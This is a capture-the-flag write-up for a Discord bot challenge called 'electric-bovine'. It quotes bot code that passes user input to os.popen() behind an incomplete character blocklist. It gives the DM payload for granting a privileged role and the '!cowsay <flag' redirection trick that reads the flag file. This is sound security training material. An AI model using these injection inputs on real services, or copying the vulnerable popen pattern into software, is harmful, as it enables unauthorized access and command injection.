 ## misc/electric-bovine
>Do androids dream of electric bovine? Find out on my new Discord server!

Discord API reference: https://discordpy.readthedocs.io/en/latest/api.html

* Bot Source Code at https://gist.github.com/dunklastarn/d3e3ca30bb4f476221bf42faebb19a12#file-bot_source-py-L221

Solution:
* Looking at authenticate(), send_msg() and role_add() in the source code of the bot, we can see that we can send messages to the #botspam channel. We can also calculate the results of authenticate() and manipulate our own nickname.
* DMing "!send_msg !role_add 000[your user id goes here]0 000[role id of 'private' role + (your user discrimatior * 4) goes here]0" to the bot grants private role permissions when nickname is set to private. We now have access to use the !cowsay command.

```python=
for char in arg:
    if char in " `1234567890-=~!@#$%^&*()_+[]\\{}|;':\",./?":
        await message.author.send("Invalid character sent. Quitting.")
        return

cow = "```\n" + os.popen("cowsay " + arg).read() + "\n```"

await message.author.send(cow)
````
* os.popen() is vulnerable to arbitrary code execution if the character filter can be bypassed. We note that the "<" character is not filtered!
* Messaging "!cowsay <flag" to the bot will pipe the contents of the file called flag into cowsay, and the flag gets printed by the bot:

```
 __________________________
< dam{discord_su_do_speen} >
 --------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
````
Flag: `dam{discord_su_do_speen}`
